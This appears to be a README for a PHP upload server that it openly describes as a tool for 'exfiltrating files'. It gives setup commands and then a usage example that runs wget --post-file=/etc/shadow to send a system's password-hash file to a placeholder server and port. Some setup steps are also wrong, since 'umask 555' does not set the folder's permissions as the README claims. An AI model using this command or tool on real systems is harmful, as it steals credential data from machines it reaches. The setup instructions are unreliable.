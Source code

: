 # PHP File Uploader
A secure and efficient solution for uploading and exfiltrating files using PHP.

## Installation
1. Host the "upload.php" file on your server.

```
php -S <server_ip>:<port> -t .
```
2. Create the "upload" directory and configure its settings.

```
mkdir upload
```
3. Set the appropriate permissions for the "upload" folder (write-only).

```
cd upload && umask 555
```
4. Optionally, change the ownership of the "upload" folder to enhance security.

```
useradd dummy && chown dummy upload
```

## Usage
To upload a file to the server, use the following method as an example:

```
wget --post-file=/etc/shadow <server_ip>:<port>/upload.php?file=shadow
```

Replace `<server_ip>:<port>` with the IP address of your server and listening port.